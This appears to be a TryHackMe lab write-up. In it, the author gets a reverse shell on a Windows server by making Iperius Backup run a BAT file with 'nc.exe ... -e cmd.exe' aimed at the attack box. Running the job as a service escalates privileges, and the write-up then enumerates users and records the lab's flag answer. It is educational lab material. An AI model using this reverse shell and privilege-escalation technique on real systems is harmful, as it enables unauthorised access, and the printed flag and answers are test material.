

Today we are playing with a windows server that is running backup jobs. Luckily for us we can RDP to a windows server and login as McSkidy. 

Get remmina installed in case it's not already on the attack-box.
```shell 
sudo apt install remmina
```

create a RDP session to the target and login as McSkidy 

Run the imperius backup and play around a bit with the settings to see what's possible to do. As it turns out , we can create our own backup-jobs and specify commands/files to be run before and after a backup job. 

Under McSkidy's downloads folder there's a file called `nc.exe` which should suit our needs very well. 

create a BAT file to run NC and send a shell back to the attack box: 

```bat 
@echo off
C:\Users\McSkidy\Downloads\nc.exe 10.11.12.24 9997 -e cmd.exe
```

set up a listener on the attack-box: 
```shell
nc -nlvp 9997
```

configure the backup to run the bat file before a backup-job: 


then try to run the backup job and receive a shell. The problem is that we're still McSkidy...

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ nc -nlvp 9997            
listening on [any] 9997 ...
connect to [10.11.12.24] from (UNKNOWN) [10.10.164.170] 49758
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\McSkidy\Downloads>
```

Instead, try to run the backup-job as a service to see if the permissions are improved: 

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ nc -nlvp 9997
listening on [any] 9997 ...
connect to [10.11.12.24] from (UNKNOWN) [10.10.164.170] 49775
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Iperius Backup>whoami
whoami
the-grinch-hack\thegrinch
```

now it looks better, and we can continue with the other questions and investigations. 

the username: `pepper`

```shell
PS C:\Users\thegrinch> net users

User accounts for \\THE-GRINCH-HACK
-------------------------------------------------------------------------------
Administrator            Alabaster                DefaultAccount           
Guest                    McSkidy                  pepper                   
Rudolph                  sugarplum                thegrinch                
WDAGUtilityAccount       
The command completed successfully.
```

Find the OS information: 
```shell
C:\Users\thegrinch>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
```

Running backup service: `IperiusSvc`

```shell
wmic service list | findstr /C:"Backup"
TRUE         TRUE        Iperius Backup Service                                   0           Win32_Service                               
FALSE            Iperius Backup Service                                           Normal        0                      IperiusSvc                                C:\Program Files (x86)\Iperius Backup\IperiusService.exe                           3180       0                        
Own Process    TRUE     Auto       .\thegrinch Running  OK      Win32_ComputerSystem     THE-GRINCH-HACK  0 0
```

path for executable file in the service: `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`

find the `flag.txt` file: 

```shell
C:\Users>dir flag.txt /s /p

 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thegrinch\Documents

11/10/2021  06:21 AM                13 flag.txt
```

contents of flag.txt: 
```shell 
type C:\Users\thegrinch\Documents\flag.txt
THM-736635221
```

The Grinch's schedule: 
```shell
c:\Users\thegrinch\Documents>type schedule.txt

Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I cant cancel that again 
7:00 - wrestle with my self-loathing
```

answer for 5:30 appointment: `jazzercize`

EOF